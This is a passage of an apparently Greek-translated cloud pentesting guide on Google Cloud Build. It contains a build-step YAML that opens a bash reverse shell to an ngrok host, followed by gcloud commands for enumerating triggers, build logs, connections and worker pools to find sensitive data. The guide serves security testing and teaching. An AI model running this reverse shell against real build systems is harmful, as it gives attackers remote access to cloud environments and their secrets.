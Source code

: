 ### Απόκτηση κελύφους
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
```markdown
Install gcloud inside cloud build:
```

Εγκατάσταση του gcloud μέσα στο cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

Θα μπορούσατε να βρείτε **ευαίσθητες πληροφορίες στις ρυθμίσεις και τα αρχεία καταγραφής των build**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Κλιμάκωση Προνομίων
